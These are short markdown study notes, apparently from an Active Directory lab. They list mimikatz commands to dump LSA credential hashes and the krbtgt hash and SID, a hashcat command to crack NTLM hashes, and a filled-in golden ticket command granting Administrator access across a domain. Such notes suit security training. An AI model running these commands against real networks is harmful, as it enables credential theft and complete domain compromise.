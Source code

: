 ### Dump hashes 

`lsadump::lsa /patch` Dump those hashes!

### Crack 
crack the hashes with hashcat 
`hashcat -m 1000 <hash> rockyou.txt`


### Golden ticket:

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

`lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

	SID: S-1-5-21-849420856-2351964222-986696166
	user: krbtgt
	ntrm: 5508500012cc005cf7082a9a89ebdfdf
	id: ? 

to use with mimikatz:
`kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500



